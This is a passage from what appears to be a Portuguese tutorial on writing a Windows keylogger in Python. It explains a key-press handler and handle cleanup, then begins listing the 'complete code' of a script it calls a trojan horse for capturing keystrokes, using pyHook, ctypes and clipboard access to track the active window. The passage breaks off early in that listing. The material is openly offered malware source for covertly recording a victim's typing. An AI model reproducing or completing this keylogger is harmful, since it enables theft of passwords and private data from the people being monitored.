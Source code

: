 Esta será a linha de código exibida no terminal e, caso o usuário pressionar uma tecla padrão, será executada a linha print " <%s> " % evento.Key,
 da função teclaPressionada.

Utilizamos a expressão regular: “%s” para formatar os valores em strings (caracteres).

Nas linhas 19 e 20, fechamos ou destruímos os handles (já que se comportam como ponteiros).

O código completo ficou assim:

# Script de cavalo de troia para capturar teclas pressionadas
from ctypes import *
import pythoncom
import pyHook 
import win32clipboard
usuario   = windll.user32
kernel32 = windll.kernel32
dadosProc    = windll.psapi # funcao para pegar os dados dos processos
telaAtual = None
# esta função é chamada caso o usuário mude de processo
def processoAtual():
     alvo = usuario.GetForegroundWindow() # estabelece o manipulador da janela alvo
